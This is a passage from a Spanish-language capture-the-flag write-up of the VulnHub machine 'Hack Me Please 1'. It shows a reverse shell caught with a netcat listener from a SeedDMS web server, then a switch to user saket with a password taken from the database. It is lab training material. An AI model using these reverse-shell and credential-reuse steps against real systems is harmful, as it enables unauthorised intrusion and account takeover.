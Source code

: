 Buscamos el id necesario para agregar a la url.

![docid](/assets/img/commons/vulnhub/hack_me_please1/docid.png){: .center-image }

Comprobamos y lanzamos la reverse shell.

![rs2](/assets/img/commons/vulnhub/hack_me_please1/rs2.png){: .center-image }
![rs3](/assets/img/commons/vulnhub/hack_me_please1/rs3.png){: .center-image }

```bash
❯ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.62] 56162
bash: cannot set terminal process group (890): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/seeddms51x/data/1048576/4$
```

## User Pivoting

---

Somos `www-data`, pero ya sabemos la contraseña de `saket` obtenida de la base de datos, nos movemos a él.

```bash
www-data@ubuntu:/home$ su - saket
Password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

saket@ubuntu:~$
```
